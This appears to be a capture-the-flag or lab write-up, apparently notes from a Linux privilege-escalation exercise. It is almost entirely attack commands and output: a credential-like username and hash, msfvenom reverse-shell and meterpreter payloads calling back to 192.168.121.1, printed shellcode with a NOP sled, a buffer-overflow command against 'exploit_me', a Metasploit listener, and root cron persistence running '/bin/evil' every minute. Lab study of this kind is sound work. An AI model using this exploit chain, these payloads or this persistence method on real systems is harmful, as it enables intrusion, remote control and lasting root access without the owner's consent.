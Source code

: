 
```
zaz : 646da671ca01bb5d84dbb5fb2238dc8e
```

![](../Images/Pasted%20image%2020240806220442.png)

```
❯ msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.121.1 LPORT=8877 -f py –e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f\x95\xa7" PrependSetuid=True
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 102 (iteration=0)
x86/shikata_ga_nai chosen with final size 102
Payload size: 102 bytes
Final size of py file: 518 bytes
buf =  b""
buf += b"\xbd\x56\x57\x8c\x14\xdb\xdb\xd9\x74\x24\xf4\x5a"
buf += b"\x2b\xc9\xb1\x13\x31\x6a\x15\x03\x6a\x15\x83\xc2"
buf += b"\x04\xe2\xa3\x66\x57\x7e\x5c\xd1\xaa\xff\x53\x3a"
buf += b"\xc3\xe3\xc0\xff\x7f\x8e\xe4\x76\x9e\xfe\x8e\x45"
buf += b"\xe1\x6c\x17\xe6\xdd\x5f\x27\x4f\x5b\x99\x4f\x90"
buf += b"\x33\x20\x8e\x78\x46\xd3\xb2\xd5\xcf\x32\x02\x43"
buf += b"\x80\xe5\x31\x3f\x23\x8f\x54\xf2\xa4\xdd\xfe\x63"
buf += b"\x8a\x92\x96\x13\xfb\x7b\x04\x8d\x8a\x67\x9a\x1e"
buf += b"\x04\x86\xaa\xaa\xdb\xc9"

export EVIL=`python -c 'print "\x90" * 525 +  "\xbd\x56\x57\x8c\x14\xdb\xdb\xd9\x74\x24\xf4\x5a\x2b\xc9\xb1\x13\x31\x6a\x15\x03\x6a\x15\x83\xc2\x04\xe2\xa3\x66\x57\x7e\x5c\xd1\xaa\xff\x53\x3a\xc3\xe3\xc0\xff\x7f\x8e\xe4\x76\x9e\xfe\x8e\x45\xe1\x6c\x17\xe6\xdd\x5f\x27\x4f\x5b\x99\x4f\x90\x33\x20\x8e\x78\x46\xd3\xb2\xd5\xcf\x32\x02\x43\x80\xe5\x31\x3f\x23\x8f\x54\xf2\xa4\xdd\xfe\x63\x8a\x92\x96\x13\xfb\x7b\x04\x8d\x8a\x67\x9a\x1e\x04\x86\xaa\xaa\xdb\xc9"'`
```

```
./exploit_me $(python -c 'print "i"*140 + "\x3f\xf7\xff\xbf"')
```

![](../Images/Pasted%20image%2020240809181012.png)

```
msfconsole -x "use exploit/multi/handler;set PAYLOAD linux/x86/meterpreter/reverse_tcp; set LHOST 192.168.121.1; set LPORT 7788; exploit"
```

![](../Images/Pasted%20image%2020240809181038.png)

The listener is on

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.121.1 LPORT=7788 -f elf –e x86/shikata_ga_nai -b "\x00\x0a\x1a\x2f\x95\xa7" PrependSetuid=True -o evil
```

![](../Images/Pasted%20image%2020240809181140.png)

```
cd /bin/
```

![](../Images/Pasted%20image%2020240809181255.png)

The exploit is in /bin and executable, we'll add it to the cron and wait for the listener to receive a connection

```
echo "*/1 * * * * /bin/evil" > /var/spool/cron/crontabs/root

Sometimes, echo doesn't work and we have to use crontab -e

export EDITOR=nano
crontab -e

*/1 * * * * /bin/evil
ctrl +x
```

![](../Images/Pasted%20image%2020240809181441.png)

![](../Images/Pasted%20image%2020240809181654.png)